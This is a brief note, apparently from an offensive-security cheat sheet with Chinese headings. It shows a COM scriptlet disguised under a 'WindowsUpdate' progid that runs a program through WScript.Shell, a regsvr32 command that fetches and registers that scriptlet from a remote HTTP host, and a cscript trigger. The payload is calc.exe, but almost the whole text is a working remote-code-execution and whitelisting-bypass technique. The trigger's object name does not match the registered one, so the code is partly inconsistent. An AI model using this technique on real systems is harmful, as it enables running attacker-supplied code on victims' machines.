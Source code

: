 	创建1.sct
```xml
<?XML version="1.0"?>
<scriptlet>
<registration
  description="Component"
  progid="Component.WindowsUpdate"
  version="1.00"
  classid="{20002222-0000-0000-0000-000000000002}"
>
</registration>
 
<public>
  <method name="exec">
  </method>
</public>
<script language="JScript">
  <![CDATA[
    function exec(){
      new ActiveXObject('WScript.Shell').Run('calc.exe');
    }
  ]]>
</script>
</scriptlet>

```
	创建COM对象
	>regsvr32.exe /s /i:http://192.168.0.107/1.sct scrobj.dll
	触发
	>cscript 1.js
	var test = new ActiveXObject("Component.TESTCB");
	test.exec()